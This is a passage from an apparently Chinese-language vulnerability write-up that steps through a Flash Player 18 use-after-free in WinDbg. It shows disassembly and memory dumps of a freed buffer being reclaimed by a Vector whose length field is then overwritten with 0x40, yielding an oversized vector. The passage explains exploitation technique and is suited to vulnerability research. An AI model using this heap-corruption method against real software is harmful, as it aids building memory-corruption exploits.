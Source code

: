 于是我们可以得到一个超长的vector对象：

![enter image description here](http://drops.javaweb.org/uploads/images/b3b226bdae419299e1ab0f0358ab8a4407630ac2.jpg)

我们可以通过调试来观察漏洞的触发过程：

1 调用valueOf之前

```
0:005> u
671cf2a5    call     671b0930   //这里最终调用valueOf 
671cf2aa 83c404          add     esp,4
671cf2ad 8806            mov     byte ptr [esi],al
671cf2af 5e              pop     esi

```

此时esi指向old buffer:

```
0:005> dd esi-3
0dfd5000  00000000 00000000 00000000 00000000
0dfd5010  00000000 00000000 00000000 00000000

```

2 调用valueOf之后，old buffer被释放，然后被vector占据：

```
0:005> p
671cf2aa 83c404          add     esp,4

```

此时esi已经指向新分配的vector，就buffer已经被释放

```
0:005> dd esi-3
0dfd5000  000003f0 0d2b3000 00000000 00000000
0dfd5010  00000000 00000000 00000000 00000000
0dfd5020  00000000 00000000 00000000 00000000
0dfd5030  00000000 00000000 00000000 00000000
0dfd5040  00000000 00000000 00000000 00000000
0dfd5050  00000000 00000000 00000000 00000000
0dfd5060  00000000 00000000 00000000 00000000
0dfd5070  00000000 00000000 00000000 00000000

```

3 写入`buffer[3]`

接下来valueOf的返回值0x40被写入`buffer[3]`（及vector.size字段）：

```
0:005> p
eax=00000040 ebx=0d8b4921 ecx=00000206 edx=00000006 esi=0dfd5003 edi=0d362020
eip=671cf2ad esp=04f2ceec ebp=04f2d050 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200202
Flash32_18_0_0_194!IAEModule_IAEKernel_UnloadModule+0x1ba07d:
671cf2ad 8806            mov     byte ptr [esi],al          ds:0023:0dfd5003=00
0:005> p
Flash32_18_0_0_194!IAEModule_IAEKernel_UnloadModule+0x1ba07f:
671cf2af 5e              pop     esi
0:005> dd esi-3
0dfd5000  400003f0 0d2b3000 00000000 00000000
0dfd5010  00000000 00000000 00000000 00000000
0dfd5020  00000000 00000000 00000000 00000000
0dfd5030  00000000 00000000 00000000 00000000

```
